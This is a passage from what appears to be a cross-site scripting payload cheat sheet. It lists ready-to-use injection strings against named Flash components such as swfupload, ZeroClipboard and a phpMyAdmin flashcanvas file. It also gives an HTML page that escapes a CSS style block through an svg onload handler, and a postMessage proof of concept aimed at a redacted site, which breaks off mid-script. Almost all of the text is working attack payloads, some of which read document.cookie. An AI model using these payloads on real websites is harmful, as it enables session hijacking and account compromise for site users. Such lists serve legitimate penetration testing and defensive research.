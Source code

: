 more payloads in ./files

### XSS in SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

### XSS in CSS

```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      div {
        background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
        background-color: #cccccc;
      }
    </style>
  </head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

> If the target origin is asterisk \* the message can be sent to any domain has
> reference to the child page.

```html
<html>
  <body>
    <input type="button" value="Click Me" id="btn" />
  </body>

  <script>
    document.getElementById("btn").onclick = function (e) {
      window.poc = window.open("http://www.redacted.com/#login");
      setTimeout(function () {
        window.poc.postMessage(
          {
            sender: "accounts",
            url: "javascript:confirm('XSS')",
          },
          "*"
```